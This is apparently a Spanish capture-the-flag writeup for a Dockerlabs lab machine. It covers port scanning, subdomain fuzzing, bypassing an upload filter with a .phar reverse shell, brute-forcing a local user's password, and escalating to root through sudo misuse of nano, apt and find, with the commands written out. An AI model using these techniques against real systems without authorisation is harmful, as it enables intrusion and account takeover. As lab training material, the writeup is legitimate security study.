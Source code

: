 # Writeup

## Levantar la máquina

![captura-levantar](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/538dd08e-411a-4379-8ad0-2c2ac5774247)

## Conectividad con la máquina atacante

Vemos que hay conectividad con la máquina y sabemos que es Linux por el **TTL**, que es **64**. Aunque no siempre es fiable.

![captura-ping](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f83d4bf7-cf04-416f-bcf8-8c6b65d7cad9)

## Escaneo de puertos

Usamos la herramienta **nmap** para el escaneo de puertos.

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN all`

Este comando lo que hace es buscar todos los puertos abiertos (1-65535) (`-p-`), lo hace de manera sigilosa (`-sS`), busca la versión de los servicios ( `-sV`), de manera rápida(`--min-rate=5000`), desactiva la resolución DNS para evitar problemas(`-n`), utiliza triple verbose para que tengamos más detalle del escaneo (`-vvv`)y omite la detección de host(`-Pn`). Lo guarda en el fichero all (`-oN all`).

![captura-escaneo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b1f3a44d-2a98-41a0-b1e8-f1206e26995d)

Puertos **abiertos**

Puerto **80 -> HTTP**

## Fichero /etc/hosts

Como podemos ver, la página no resuelve ya que comprobamos con el reporte de **nmap** que tiene un dominio llamado **hidden.lab**.
Por los tanto lo añadimos al fichero /etc/hosts.

![captura-host](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3cb44c48-71bd-4ca2-ae82-49127d023bf3)

Ahora si vemos que resuelve bien la página.

![captura-cafe](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/979900f2-c8cf-475b-8611-a7e378db6f98)

## Fuzzing

Para empezar hago fuzzing para conocer directorios que cuelguen de la raiz pero veo que no hay ninguno relevante por lo que se me ocurre a hacer fuzzing de subdominios con la herramienta **wfuzz** y encuentro el siguiente.

`wfuzz -c --hl=9 -w /usr/share/wordlist/SecLists/Discovery/DNS/subdomain-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.3`

![captura-subdominio](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1aed61f6-3fe2-428d-97b9-e526fa6f3478)

Y lo volvemos a añadir al fichero **/etc/hosts** para que pueda resolver bien.

![captura-sub](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8bb202aa-e2f4-4cf0-bb0f-bbec127a6950)

Vemos que podemos subir archivos, pero solo con extensión PDF.

![image](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1706dce2-19dd-4e65-8d48-390d93017ce9)

Busco por Internet extensiones que permitan **php** y tras probar extensiones encuentro en HackTricks la extensión **[.phar](https://book.hacktricks.xyz/pentesting-web/file-upload)**.

Por lo que puedo usar la herramienta **[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)** para conseguir una reverse shell.

Editamos el archivo y ponemos en la IP, la nuestra, la de Kali Linux, es decir, la atacante, y el puerto que vamos a utilizar, en mi caso, el **443**.

![captura-php](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f88361b3-3166-443b-b44e-94700530f8e6)

Y ahora le cambiamos la extensión e intentamos subirlo. Para cambiar la extensión podemos hacer uso del **mv**

`mv php-reverse-shell.php  php-reverse-shell.phar`

¡¡ IMPORTANTE !!

Es importante que en la esquina inferior derecha pongais todos los archivos, porque sino, no os saldrá.

![captura-todos](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b8d7034f-f726-432a-a8d7-87802de08f34)

Una vez subido, tenemos que saber donde se ha subido, para ello podemos volver a hacer fuzzing con el nuevo subdominio para saber donde se ha subido.

![captura-uploads](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/15c1573c-f9ca-4da2-ab3e-e40915e73f3b)

Entramos y vemos que si está ahí subido, entonces ahora hacemos uso del **nc** para obtener la reverse shell.

![captura-nc](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6e2811e0-efbe-4958-9ee3-893a5a3a1178)

Y si se queda cargando significa que la hemos obtenido.

![captura-reverse](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8b69b9ae-130f-42af-907b-590ee849b5c2)

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty rows 41 columns 189`

![captura-bonito](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/df86f70c-038f-44f5-bcef-b928e9f1ac76)

Tras intentar buscar binarios con permisos SUID, hacer uso del `sudo -l` etc, no encuentro nada y decido hacer ataque de fuerza bruta con usuarios del sistema.

![captura-passwd](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/adf52a68-0a4d-4f54-8265-680161f2177e)

Vemos que existen **cafetero, john, bobby**.

Subimos un script en bash que hace ataque de fuerza bruta con diccionario, para ello, he acortado el rockyou.txt a 200 palabras ya que no me dejaba subirlo más grande.

`head -n 200 rockyou.txt > rockyou_200.txt`

Subimos el diccionario.

El script que voy a utilizar es este -> [Linux-Su-Force](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

Subimos el script.

![captura-todo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/77c89cff-653e-48c0-a52d-e960ed171bc6)

Ahora volvemos a la reverse shell y ejecutamos el script.

Le damos permisos y ejecutamos.

`chmod +x Linux-Su-Force.sh`

`bash Linux-Su-Force.sh cafetero rockyou_200.txt`

![captura-cafetero](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/a2757b05-2043-48fe-b7bc-ca44d01336c1)

Ahora entramos como cafetero y vemos que podemos usar con **sudo**.

![captura-nano](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f3b625ce-404f-45b9-83fe-f98ebd92e2a0)

Hago uso de la herramienta [Searchbins](https://github.com/r1vs3c/searchbins) que está basada en la página [GTFOBins](https://gtfobins.github.io/).

![captura-searchbins](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1f84a783-3698-4452-aaf4-01c6953c8fa1)

Y lo ponemos en práctica.

![captura-john](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/152e84ab-2376-4dc4-8307-312b6362bacb)

`sudo -u john /usr/bin/nano`

`^R -> (Ctrl R) ^X -> (Ctrl X`

`reset; sh 1>&0 2>&0`

Vemos que funciona, así que ahora vamos a por el siguiente usuario.

![captura-bobby](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6f5efc27-2600-42bf-bb92-d3ddbeb9b24e)

Hacemos uso de la herramienta.

![captura-apt](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3f6400df-a17c-4c28-9ed8-bfa4a182ede3)

`sudo -u bobby /usr/bin/apt changelog apt`

`!/bin/sh`

Probamos el primero...

![captura-bobby2](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6aaecb49-e7ac-4f82-897c-b720dd9906f8)

Ganamos acceso a bobby. Vamos a por el siguiente que ya es root.

![captura-roo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/c1f09b1d-8bb1-49ba-8f7d-0cacde6c71d4)

Vemos que podemos ejecutar como root el binario find, por lo que buscamos en nuestra herramienta.

`sudo -u root /usr/bin/find . -exec /bin/sh -p \; -quit`

![captura-find](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/2f784669-2d72-4ce7-a668-73f1b2f806ba)

Y vemos que funciona correctamente.

![captura-root](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/9ec161a1-dbd6-48f9-a25a-6d3376838d7e)

Ya somos root!!